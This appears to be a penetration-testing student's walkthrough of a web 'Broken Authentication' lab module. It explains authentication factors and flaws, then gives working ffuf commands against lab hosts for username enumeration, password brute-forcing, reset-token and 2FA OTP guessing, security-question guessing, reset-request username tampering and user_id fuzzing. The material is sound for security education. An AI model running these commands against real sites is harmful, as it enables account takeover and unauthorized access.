




# Broken Authentication

## Section 1

### What is Authentication?

**Authentication** is the process of verifying the identity of a user, system, or entity to confirm that they are who they claim to be.

- It is one of the **first lines of defense** against unauthorized access.
- The most common method in web applications is a **login form** using a username and password.
- **Examples:**
    * Email accounts
    * Online banking

### Authentication vs. Authorization

| Authentication                                   | Authorization                                        |
| ------------------------------------------------ | ---------------------------------------------------- |
| Determines **who you are**                       | Determines **what you can access**                   |
| Verifies identity using credentials              | Checks permissions using policies and rules          |
| Usually happens before authorization             | Usually happens after authentication                 |
| Requires login details or authentication factors | Requires user privileges or permission levels        |
| May use an ID Token to communicate identity      | May use an Access Token to grant or represent access |

**Example:**

- **Authentication**: You log in to a website using your email and password.
- **Authorization**: The website checks whether your account has permission to access the admin dashboard.

**Key Difference:** Authentication verifies identity; authorization determines access permissions.

### Common Authentication Methods
| Authentication Factor          | Description                   | Examples                                                      |
| ------------------------------ | ----------------------------- | ------------------------------------------------------------- |
| **Knowledge-Based** Authentication | Something you know            | Password, passphrase, PIN, answers to security questions      |
| **Ownership-Based** Authentication | Something you have or possess | ID card, security token, smartphone with an authenticator app |
| **Inherence-Based** Authentication | Something you are or do       | biometric factors (Fingerprint, facial recognition, voice recognition) |

### Single-Factor Authentication (SFA)

Single-factor authentication relies on only one authentication factor to verify a user's identity.

- Example: Logging in using only a password.
- It relies on a single type of proof, such as knowledge of a password.

### Multi-Factor Authentication (MFA)

Multi-factor authentication requires two or more authentication factors to verify a user's identity, MFA is commonly referred to as **two-factor authentication (2FA)**.

1. Enter your password (**something you know**).
2. Enter a Time-Based One-Time Password (TOTP) generated by an authenticator app (**something you possess**).

**Important**: Using two passwords does not count as MFA because both belong to the same category: something you know.

## Section 2

### Attacks on Authentication

Authentication attacks can be categorized based on the **three main authentication factors**:

- **Knowledge-based**: Something you know.
- **Ownership-based**: Something you have.
- **Inherence-based**: Something you are or do.

Each type **has different weaknesses and attack methods**.

### Attacking Knowledge-Based Authentication

Knowledge-based authentication is widely used and comparatively easy to attack. It **relies on static information that attackers may obtain, guess, or brute-force**.

Common weaknesses and attack methods:

- **Brute-force attacks**: Repeatedly trying passwords or PINs **until the correct one is found**.
- **Guessing attacks**: Using **predictable** passwords or personal information.
- **Social engineering**: **Tricking users** into revealing their credentials.
- **Data breaches**: **Obtaining** passwords or other sensitive information **from compromised systems**.

### Attacking Ownership-Based Authentication

Ownership-based authentication relies on something the user possesses, such as hardware tokens, smart cards, or other physical devices.

**Advantages:**

- More resistant to common phishing and password-guessing attacks.
- Physical objects are generally harder to acquire or replicate than information that can be guessed, phished, or stolen through data breaches.

**Limitations:**

- **Cost and logistics**: Purchasing, distributing, and managing physical tokens or devices can be expensive and complicated, especially in large-scale deployments.
- **Physical attacks**: Attackers may steal or clone the authentication device (**NFC Badge Cloning**)
- **Cryptographic attacks**: Attackers may exploit weaknesses in the cryptographic algorithms used by the authentication system.

### Attacking Inherence-Based Authentication

Inherence-based authentication relies on biometric characteristics or behaviors, such as fingerprints, facial patterns, and other biometric data.

**Advantages:**

- Convenient and user-friendly.
- Users do not need to remember complex passwords.
- Users do not need to carry physical authentication tokens.
- Can reduce risks associated with weak passwords or stolen tokens.

**Weaknesses and concerns:**

- **Privacy risks**: Biometric data is highly sensitive personal information.
- **Data security**: Biometric databases must be securely protected.
- **Algorithmic bias**: Biometric recognition algorithms may perform differently across individuals or groups.
- **Irreversible compromise**: Unlike passwords, biometric characteristics generally cannot be changed if exposed.

### Example: BioStar 2 Data Breach (2019)

In 2019, attackers breached a company that developed biometric smart-lock systems managed through mobile and web applications.

The systems used fingerprints and facial patterns to identify authorized users.

**Information exposed included:**

- Fingerprints
- Facial patterns
- Usernames and passwords
- Access grants and permissions
- Registered users' addresses

**Why was this serious?**

1. The attackers obtained sensitive biometric and account information.
2. Affected users could change their passwords to reduce the risk of further account compromise.
3. However, users could not simply change their fingerprints or facial characteristics.
4. Therefore, compromised biometric data could create a long-term security and privacy risk.

**Source:** [BioStar 2 Biometric Data Breach Report](https://www.vpnmentor.com/blog/report-biostar2-leak)


### Quick Comparison of Authentication Attacks

| Authentication Type | Main Weaknesses                                                              | Common Attack Methods                                                     |
| :-------------------: | :----------------------------------------------------------------------------: | :-------------------------------------------------------------------------: |
| Knowledge-Based     | Static information can be guessed, stolen, or obtained                       | Brute force, password guessing, social engineering, data breaches         |
| Ownership-Based     | Physical devices can be stolen or cloned; cryptographic weaknesses may exist | Theft, badge cloning, cryptographic attacks                               |
| Inherence-Based     | Sensitive biometric data can be exposed and is difficult to replace          | Biometric data breaches, attacks exploiting recognition-system weaknesses |

## Section 3

### What is User Enumeration?

User enumeration is a vulnerability that allows attackers to identify valid usernames or registered accounts **by observing differences in a web application's behavior**.

- **Commonly occurs in:**

    - Login forms
    - Registration pages
    - Password reset functionality

- **Usernames may be sensitive** because:

    - They can be required for authentication.
    - Users often reuse the same username across multiple services, such as web applications, FTP, RDP, and SSH.

### User Enumeration Theory

User enumeration creates a balance between security and user experience.

- Revealing whether a username exists helps legitimate users identify typing mistakes.
- However, attackers can use the same information to discover valid accounts.
- Even mature applications, such as **WordPress, may reveal username validity by default**.

**Example: WordPress Login**

| Input                           | Error Message                                                    | Result                  |
| ------------------------------- | ---------------------------------------------------------------- | ----------------------- |
| Invalid username                | `Unknown username. Check again or try your email address.`       | Username does not exist |
| Valid username + wrong password | `The password you entered for the username editor is incorrect.` | Username exists         |


??? note "Important: User enumeration is not always a vulnerability"
    <center>**Some applications, such as chat platforms, need username searches to help users find each other.**</center>
    <center>**One possible approach is to use email addresses for login instead of usernames**, although this alone does not prevent enumeration if the application still reveals account validity.</center>

### User Enumeration via Differing Error Messages

Attackers can discover valid usernames by **submitting different usernames and analyzing the application's responses**.

**Common sources of usernames:**

- Username wordlists.
- Crawling a web application.
- Public company profiles on social networks.
- OSINT (Open-Source Intelligence).
- Publicly available information about employees and users.

**Recommended wordlist collection**: [SecLists — Usernames](https://github.com/danielmiessler/SecLists/tree/master/Usernames)

**Example: Login Responses**

| Username    | Password  | Response              | Meaning                    |
| :-----------: | :---------: | :---------------------: | :--------------------------: |
| `abc`       | `invalid` | `Unknown user`        | Invalid username           |
| `htb-stdnt` | `invalid` | `Invalid credentials` | Potentially valid username |

**Enumerating Users with FFUF**
```bash
ffuf -w /opt/useful/seclists/Usernames/xato-net-10-million-usernames.txt \
-u http://172.17.0.2/index.php \
-X POST \
-H "Content-Type: application/x-www-form-urlencoded" \
-d "username=FUZZ&password=invalid" \
-fr "Unknown user"
```

**Command breakdown:**

| Parameter            | Purpose                                                      |
| :--------------------: | :------------------------------------------------------------: |
| `-w`                 | Specifies the username wordlist                              |
| `-u`                 | Specifies the target URL                                     |
| `-X POST`            | Sends POST requests                                          |
| `-H`                 | Sets the HTTP request header                                 |
| `-d`                 | Specifies the POST request body                              |
| `FUZZ`               | Marks the username value to replace with each wordlist entry |
| `-fr "Unknown user"` | Filters out responses containing `Unknown user`              |

**Analyze the results**

```
[Status: 200, Size: 3271, Words: 754, Lines: 103]
FUZZ: consuelo
```

**`consuelo`** is identified as a potentially valid username because its response does not contain **`Unknown user`**.
  
### User Enumeration via Side-Channel Attacks

A **side-channel attack** identifies users through indirect information about application behavior, rather than explicit differences in response messages by **response timing**.

**How it works:**

1. Submit a login request with a candidate username.
2. Measure the response time.
3. Repeat the test to account for normal timing variations.
4. Compare response-time patterns for different usernames.
5. Determine whether valid and invalid usernames produce consistently different timings.

Example:

| Username Type    | Application Behavior                                                  | Possible Result |
| ---------------- | --------------------------------------------------------------------- | --------------- |
| Invalid username | Application rejects the request without querying additional user data | **Faster response** |
| Valid username   | Application performs a database lookup or password verification       | **Slower response** |

If the **timing difference** is consistent and statistically meaningful, **it may reveal valid usernames even when the error messages are identical**.

??? Warning
    <center>**Timing differences are not guaranteed; network latency, caching, and other application processes can affect measurements.**</center>

### 📌 Question

**Step 1: Identify Different Responses Based on Usernames**

1. Try a valid username, `htb-stdnt`, with a wrong password, `123456`.
      - Response: `Invalid credentials.`
2. Try an invalid username, `Bavly`, with the same wrong password, `123456`.
      - Response: `Unknown user.`

**Step 2: Capture the Login Request Headers**

1. Open the browser's Developer Tools (`F12`).
2. Navigate to the **Network** tab.
3. Submit a login attempt with any username and password.
4. Select the login request and inspect its **Headers** and **Payload**.
5. Note the request URL, HTTP method, `Content-Type`, and POST parameters.


**Step 3: Enumerate Valid Usernames Using FFUF**

Run FFUF with a username wordlist and filter out responses containing `Unknown user`.

```bash
ffuf -w /opt/useful/seclists/Usernames/xato-net-10-million-usernames.txt \
-u http://154.57.164.83:44771/index.php \
-X POST \
-H "Content-Type: application/x-www-form-urlencoded" \
-d "username=FUZZ&password=invalid" \
-fr "Unknown user"
```

**Result**


## Section 4

### Understanding Password Brute-Forcing

Password brute-forcing is an attack that automatically tries multiple passwords until the correct one is found.

**Common password security weaknesses include:**

- **Password Reuse (prominent issue)**: Using the same password across multiple accounts. Attackers may try leaked passwords against other services, which is related to credential stuffing.
- **Weak Passwords**: Using common words, predictable phrases, or simple patterns.
- **Password Spraying**: Trying a small number of common passwords against multiple accounts **to reduce the risk of account lockouts**.


??? note 
    <center>**The success of brute-forcing depends on the number of attempts allowed, the time required, and the quality of the wordlist.**</center>

### Create a Custom Password Wordlist

Before brute-forcing, check the application's password policy. In this example, passwords must contain:

- At least one uppercase letter (`A-Z`).
- At least one lowercase letter (`a-z`).
- At least one digit (`0-9`).
- At least 10 characters.

The `rockyou.txt` wordlist contains approximately 14.3 million passwords.

```bash
wc -l /opt/useful/seclists/Passwords/Leaked-Databases/rockyou.txt
```

#### Method 1: Using `grep`

**Filter passwords to match the application's policy:**

```bash
grep '[[:upper:]]' /opt/useful/seclists/Passwords/Leaked-Databases/rockyou.txt \
| grep '[[:lower:]]' \
| grep '[[:digit:]]' \
| grep -E '.{10}' \
> custom_wordlist.txt
```

**Check the resulting wordlist size:**

```
wc -l custom_wordlist.txt
```

**Expected output from the example:**

```
151647 custom_wordlist.txt
```

This reduces the wordlist by approximately **99%**.

#### Method 2: Using `awk`

The same filtering can be performed with a single command:

```
awk 'length($0) >= 10 && /[a-z]/ && /[A-Z]/ && /[0-9]/' \
/opt/useful/seclists/Passwords/Leaked-Databases/rockyou.txt \
> custom_wordlist.txt
```


### Brute-Force the Password with FFUF

Use `FUZZ` as the placeholder for each candidate password in the custom wordlist.

```
ffuf -w ./custom_wordlist.txt \
-u http://172.17.0.2/index.php \
-X POST \
-H "Content-Type: application/x-www-form-urlencoded" \
-d "username=admin&password=FUZZ" \
-fr "Invalid username"
```

### 📌 Question 1


### 📌 Question 2

**Step 1: Create a Custom Wordlist**

The application requires passwords to contain at least one uppercase letter, one lowercase letter, one digit, and a minimum of 10 characters.

```bash
awk 'length($0) >= 10 && /[a-z]/ && /[A-Z]/ && /[0-9]/' \
/opt/useful/seclists/Passwords/Leaked-Databases/rockyou.txt \
> custom_wordlist.txt
```

**Step 2: Capture the Login Request**

1. Open Developer Tools using `F12`.
2. Navigate to the **Network** tab.
3. Submit a login attempt.
4. Select the login request.
5. Inspect the request URL, HTTP method, `Content-Type`, and POST parameters.


**Step 3: Brute-Force the Admin Password**

```bash
ffuf -w ./custom_wordlist.txt \
-u http://154.57.164.78:34275/index.php \
-X POST \
-H "Content-Type: application/x-www-form-urlencoded" \
-d "username=admin&password=FUZZ" \
-fr "Invalid username or password"
```

**Result**


## Section 5

### Understanding Password Reset Tokens

Password reset functionality allows users to recover accounts when they forget their passwords. Applications commonly generate a one-time token and send it through email or SMS.

A typical password reset flow:

1. The user requests a password reset.
2. The application generates a reset token.
3. The user receives the token through email or SMS.
4. The user submits the token to verify the reset request.
5. The application allows the user to set a new password.

Weak reset tokens can be guessed or brute-forced, potentially allowing unauthorized password resets and account takeover.


### Identify a Weak Reset Token

Example reset URL:

```
http://weak_reset.htb/reset_password.php?token=7351
```

The token is supplied through the GET parameter `token`.

In this example:

- Token: `7351`
- Token length: 4 digits
- Possible values: `0000` to `9999`
- Total possibilities: 10<sup>4</sup> = 10,000

A four-digit numeric token has a small search space, making it **potentially vulnerable to brute-force attacks if the application lacks adequate protections**.

### Generate a Token Wordlist

Use **`seq`** to generate every four-digit value:

```bash
seq -w 0 9999 > tokens.txt
```

The **`-w`** option **pads values with leading zeros** so every token has the same length.

### Test Reset Tokens with FFUF

```bash
ffuf -w ./tokens.txt \
-u "http://weak_reset.htb/reset_password.php?token=FUZZ" \
-fr "The provided token is invalid"
```

**Example result**

```
[Status: 200, Size: 2667, Words: 538, Lines: 90]
FUZZ: 6182
```

In the example, **`6182`** is the candidate token associated with a response that **does not match the configured invalid-token filter**. Verify the response to confirm that the token is valid; a different response alone does not guarantee success.

### 📌 Question 1:3


### 📌 Question 4
**After Request Reset Password for user `admin`, use fuff to guess token**
```bash
seq -w 0 9999 > tokens.txt

ffuf -w ./tokens.txt \
-u "http://154.57.164.76:31282/reset_password.php?token=FUZZ" \
-fr "The provided token is invalid"
```

**Result**


## Section 6

### Understanding 2FA

Two-factor authentication (2FA) adds a second verification step to protect accounts, even if an attacker knows the user's password.

It combines two different authentication factors:

- **Knowledge**: Something you know, such as a password.
- **Ownership**: Something you have, such as a phone or authenticator app.
- **Inherence**: Something you are, such as a fingerprint.

A common implementation combines a password with a one-time password (OTP) delivered by SMS or generated by an authenticator app.

### Identify the 2FA Mechanism

In this HTB lab, the assumed credentials are:

```
Username: admin
Password: admin
```

After login, the application redirects to `/2fa.php` and requests a 4-digit OTP.

There are 10,000 possible codes, from `0000` to `9999`.

Inspect the 2FA request using Burp Suite or the browser's Developer Tools. The example request uses:

- Endpoint: `/2fa.php`
- Method: `POST`
- POST parameter: `otp`
- Session cookie: `PHPSESSID`
- Failure message: `Invalid 2FA Code`

The session cookie associates the OTP verification request with the session that has already passed password authentication.

### Understand the FFUF Request

**Generate a 4-Digit OTP Wordlist**
```bash
seq -w 0 9999 > tokens.txt
```

**The request components are:**
```bash
ffuf -w ./tokens.txt -u http://bf_2fa.htb/2fa.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=fpfcm5b8dh1ibfa7idg0he7l93" -d "otp=FUZZ" -fr "Invalid 2FA Code"
```

**the Results**

The HTB example returns several matches, including:

```
[Status: 302, Size: 0, Words: 1, Lines: 1]
FUZZ: 6513

[Status: 302, Size: 0, Words: 1, Lines: 1]
FUZZ: 6514
```

Why are there multiple results?

**Once the correct OTP is submitted, the session may become fully authenticated**. Subsequent requests using that session can then receive redirects instead of the usual invalid-code response. Those later responses may also appear as FFUF matches.

Therefore, the first match, `6513`, is the likely correct OTP in the provided example, but the redirect and authenticated session should be verified to confirm it.

**After successful verification, the lab indicates that the authenticated session can access `/admin.php`**.

### 📌 Question


```bash
seq -w 0 9999 > tokens.txt

ffuf -w ./tokens.txt -u http://154.57.164.64:31107/2fa.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=o636kajhp7c3unb4ng2jua4m83" -d "otp=FUZZ" -fr "Invalid 2FA Code"
```


## Section 7

### Overview
Brute-force protection mechanisms prevent attackers from submitting large numbers of authentication attempts automatically.

Two common mechanisms are:

- **Rate Limiting**: Restricts how many requests a user or client can make within a specific time.
- **CAPTCHA**: Presents a challenge designed to distinguish humans from automated scripts.

### Rate Limits

Rate limiting **controls the frequency of requests to protect applications from brute-force attacks**, abuse, and excessive traffic.

**How it works**

A web application may:

- Allow only a certain number of login attempts within a time window.
- Introduce increasing delays after failed attempts.
- Temporarily block further attempts after a threshold is reached.

**Potential weakness: `X-Forwarded-For`**

Applications behind reverse proxies or load balancers may see the proxy's IP address instead of the original client's address.

Some applications use the HTTP header **`X-Forwarded-For` to identify the originating IP address**.

Example:

```
X-Forwarded-For: 192.0.2.10
```

If an application **blindly trusts this client-controlled header, an attacker may supply different values in successive requests, potentially bypassing IP-based rate limiting**.


### CAPTCHAs

**CAPTCHA** stands for Completely Automated Public Turing test to tell Computers and Humans Apart.

It attempts to **distinguish human users from automated clients** before allowing an action, such as submitting a login form.

**Common types include:**

- Distorted-text recognition.
- Selecting specific objects in images.
- Puzzle-based challenges.
- Audio challenges.

CAPTCHAs can make automated attacks more difficult, but they can also create accessibility and usability problems.

**Potential weakness: Exposed CAPTCHA solutions**

A CAPTCHA implementation is flawed **if the expected solution is exposed to the client in a way that allows an attacker to retrieve it without solving the challenge**.

**For example, inspect the page's HTML and network responses to determine whether the expected answer is accidentally included in client-visible data.**



## Section 8
### Understanding Default Credentials

**Default credentials** are usernames and passwords provided by vendors during installation or initial setup.

If administrators fail to change them, attackers may gain unauthorized access to the application.

**Common examples include:**

- `admin:password`
- **Vendor-specific default** usernames and passwords.
- **Default administrator accounts** documented in installation guides.

Testing for default credentials is an important part of authentication security testing and is covered by the [OWASP Web Security Testing Guide](https://wstg.owasp.org/latest/4-Web_Application_Security_Testing/04-Authentication/02-Default_Credentials/).

### Finding Default Credentials

#### Method 1: Search default credential databases

Use **vendor-specific databases** to identify credentials associated with a product or device.

- [CIRT.net Default Password Database](https://www.cirt.net/passwords)
- [SecLists — Default Credentials](https://github.com/danielmiessler/SecLists/tree/master/Passwords/Default-Credentials)
- [SCADAPASS](https://github.com/scadastrangelove/SCADAPASS/tree/master) — default password references for various industrial vendors.

**Example: If you identify a Cisco device during an authorized penetration test, search the database for default credentials for Cisco devices**

#### Method 2: Search the internet

Search for the application's name along with terms such as `default credentials`, `default login`, or `installation guide`.

Example search:

```bash
BookStack default credentials
```

**Installation documentation may reveal the initial administrator account**.

```
Email:    admin@admin.com
Password: password
```


## Section 9

### Guessable Password Reset Questions

Web applications may use **predefined security questions to verify a user's identity before allowing a password reset.**

**Examples include:**

- What is your mother's maiden name?
- What city were you born in?

These questions are often **vulnerable because their answers may be predictable**, publicly available through OSINT, or discoverable through brute-force attacks when protections are missing.

**Suppose the application asks for the city where the target was born**. A list of cities can be used to create a wordlist [world-cities.csv](https://github.com/datasets/world-cities/blob/main/data/world-cities.csv).

Extract city names from a CSV file:

```
cat world-cities.csv | cut -d ',' -f1 > city_wordlist.txt
```

Count the entries:

```
wc -l city_wordlist.txt
```

Example output:

```
26468 city_wordlist.txt
```

**If you have information about the target's country, you can reduce the wordlist:**

```
cat world-cities.csv | grep Germany | cut -d ',' -f1 > german_cities.txt
```

```
wc -l german_cities.txt
```

Example output:

```
1117 german_cities.txt
```


**The application may follow this process:**

1. Submit the target username.
2. Answer the security question.
3. Submit a new password.

**Test security-question validation**

```bash
ffuf -w ./city_wordlist.txt \
-u http://pwreset.htb/security_question.php \
-X POST \
-H "Content-Type: application/x-www-form-urlencoded" \
-b "PHPSESSID=<SESSION_ID>" \
-d "security_response=FUZZ" \
-fr "Incorrect response."
```

### Manipulating the Reset Request

Another business logic flaw occurs when the application **trusts a username supplied by the client instead of securely binding the reset process to the account initially selected**.

**Step 1: Submit your own username**

For example:

```
POST /reset.php HTTP/1.1
Host: pwreset.htb
Content-Type: application/x-www-form-urlencoded

username=htb-stdnt
```

The application begins the password reset process for `htb-stdnt`.

**Step 2: Submit the security answer**

The next request includes the username as a hidden form parameter:

```
POST /security_question.php HTTP/1.1
Host: pwreset.htb
Content-Type: application/x-www-form-urlencoded

security_response=London&username=htb-stdnt
```

**The `username` is client-controlled because it is included in the request. Hidden parameters are not inherently secure; users can modify them.**

**Step 3: Inspect the final password reset request**

The application sends another username parameter when submitting the new password:

```
POST /reset_password.php HTTP/1.1
Host: pwreset.htb
Content-Type: application/x-www-form-urlencoded

password=<NEW_PASSWORD>&username=htb-stdnt
```

**The key question is whether the server verifies that this username belongs to the same account whose security question was successfully answered**.

**Step 4: Test for inconsistent account validation**

In an authorized lab, modify the final request's username to another test account and observe the result.

For example, changing:

```
username=htb-stdnt
```

to:

```
username=admin
```

tests whether the application incorrectly allows the final request to target a different account.

If the server accepts the change without verifying the original reset authorization, **an attacker may be able to reset another user's password without answering that user's security question**.

**Root cause:** The application **fails** to bind the verified identity to the entire password reset transaction.

### 📌 Question 1
**Step 1: Reset Passowrd for username `admin`**

**Step 2: submit any city and capture the request using Network tab**


**Step 3: download list of cities can be used to create a wordlist [world-cities.csv](https://github.com/datasets/world-cities/blob/main/data/world-cities.csv) and Extract cities from this**

```bash
cat world-cities.csv | cut -d ',' -f1 > city_wordlist.txt
```

**Step 4: brute force using fuff**

```bash
ffuf -w ./city_wordlist.txt \
-u http://154.57.164.66:42107/security_question.php \
-X POST \
-H "Content-Type: application/x-www-form-urlencoded" \
-b "PHPSESSID=qfjm3nlmejmgj4g91jih0211k9" \
-d "security_response=FUZZ" \
-fr "Incorrect response."
```


### 📌 Question 2
**After Reseting password from Q1, just login with `admin` and `{new_password}`**


## Section 10

### Overview

**Direct access authentication bypass** occurs when a web application **fails to enforce authentication checks** on protected resources or returns protected content before completing the authentication check.

For example, a website may **redirect unauthenticated users from `/admin.php` to the login page**. However, if the server still includes the admin page's content in the response body, **the protected information may remain accessible**.

### How the Vulnerability Works

Suppose a website redirects authenticated users to **`/admin.php`** after login.

An attacker can try accessing the endpoint directly without logging in:

```
GET /admin.php HTTP/1.1
Host: target.htb
```

**If the server does not properly enforce authentication, it may return the protected content**.

**Vulnerable PHP code**

```
if (!$_SESSION['active']) {
    header("Location: index.php");
}
```

The problem is that **`header("Location: index.php")`** sends a redirect response but does not stop PHP execution.

As a result, the application may continue executing the script and **include the protected page's content in the response body**, even though the response status is **`302 Found`**.


**Testing with Burp Suite**

1. Open Burp Suite and enable Proxy interception.
2. Request a protected endpoint such as `/admin.php` without authenticating.
3. Inspect the server response.
4. Check whether the response body contains protected content despite the redirect.
5. If necessary, use Burp's Do intercept → **Response to this request option to inspect the response before forwarding it**.
6. **In an authorized lab**, change the response status from `302 Found` to `200 OK` and forward it to observe whether the browser renders the content.





**How to Fix It**

The **PHP script must stop execution immediately** after sending the redirect.

```
if (!$_SESSION['active']) {
    header("Location: index.php");
    exit;
}
```

The **`exit`** statement prevents the remaining script from executing.

### 📌 Question

1. Open Burp Suite and enable Proxy interception.
2. Request a protected endpoint such as `/admin.php` without authenticating.
3. Inspect the server response.
4. use Burp's Do intercept → **Response to this request option to inspect the response before forwarding it**.
5. change the response status from `302 Found` to `200 OK` and forward it to observe whether the browser renders the content.
   


## Section 11

### Overview

**Authentication bypass via parameter modification** occurs when a web application incorrectly relies on a client-controlled HTTP parameter to determine a user's identity or privileges.

An attacker may modify or remove parameters in a URL or request to bypass authentication checks or gain unauthorized access to privileged functionality.

This vulnerability can overlap with Insecure Direct Object Reference (IDOR) and broken access control.

### Understanding the Vulnerability

Suppose a user logs in with the account `htb-stdnt`. After successful login, the application redirects them to:

```
/admin.php?user_id=183
```

The page displays limited information and reports insufficient privileges.

The `user_id` parameter may be influencing how the application identifies the user or determines their access level.

**Step 1: Inspect the parameter**

Check the URL and HTTP requests in Burp Suite.

```
GET /admin.php?user_id=183 HTTP/1.1
Host: target.htb
Cookie: PHPSESSID=<SESSION_ID>
```

Observe how the application responds when the parameter is present.

**Step 2: Remove the parameter**

Request the same endpoint without `user_id`:

```
GET /admin.php HTTP/1.1
Host: target.htb
Cookie: PHPSESSID=<SESSION_ID>
```

In the HTB example, the application redirects to the login page even though the session cookie remains valid.

This suggests that the application **may be incorrectly using `user_id` as part of its authentication logic**.

**Step 3: Test direct access**

Request the original URL again:

```
GET /admin.php?user_id=183 HTTP/1.1
Host: target.htb
Cookie: PHPSESSID=<SESSION_ID>
```

The example application returns `200 OK`, indicating that the parameter affects access to the page.

However, a `200 OK` response alone does not prove authentication bypass. **Confirm whether protected information or privileged functionality is actually accessible**.

**Step 4: Test authorization enforcement**

In an authorized lab, investigate whether changing the parameter to another user ID changes the privileges granted.

For example:

```
/admin.php?user_id=183
/admin.php?user_id=<OTHER_USER_ID>
```

If changing the ID allows access to another user's data or administrative functions without proper authorization, the application may have an IDOR or broken access control vulnerability.

If the application grants administrator privileges solely because a client supplies an administrator's ID, this is a serious authorization flaw.

**Why This Happens**

The underlying problem is **trusting client-controlled input to establish identity or permissions**.

For example, an insecure implementation might use:

```
$user_id = $_GET['user_id'];
```

and then use `$user_id` to determine access without verifying that the authenticated session belongs to that user or has the required privileges.

The parameter itself is not inherently vulnerable. **The vulnerability exists when the server uses it without appropriate authentication and authorization checks**.

### 📌 Question

**Step 1: Log in**

Use the supplied credentials:

```
Username: htb-stdnt
Password: AcademyStudent!
```

After logging in, note the redirect URL and inspect the page. Pay particular attention to parameters such as `user_id`.

**Step 2: Find the administrator's user ID**

The example in HTB's walkthrough redirects to:

```
/admin.php?user_id=183
```

Your goal is to discover which **`user_id`** grants access to the administrator's data.

**Generate a wordlist of numeric IDs:**

```
seq 1 1000 > user_ids.txt
```

Then, using the authenticated session cookie from your own lab session, **run FFUF**:

```
ffuf -w user_ids.txt \
-u "http://<ip>:<PORT>/admin.php?user_id=FUZZ" \
-b "PHPSESSID=<YOUR_SESSION_ID>" \
-fr "Could not load admin data"
```


## Section 12

### Overview

A **session token** is a unique identifier used by a web application to associate requests with a user's authenticated session.

If an attacker obtains or forges a valid session token, **they may be able to impersonate another user without knowing their password**.

**Common session token vulnerabilities include:**

- **Brute-forceable tokens**: Tokens are too short or have insufficient entropy.
- **Predictable tokens: Tokens**: follow a pattern, such as sequential numbers.
- **Partially random tokens**: Most of the token is static, leaving only a small portion unpredictable.
- **Encoded tokens**: Tokens contain Base64, hexadecimal, or URL-encoded data that can be modified without integrity protection.
- **Weakly protected encrypted tokens**: Poor cryptographic design or implementation allows tokens to be forged or manipulated.

### Brute-Force Attacks

#### Short session tokens

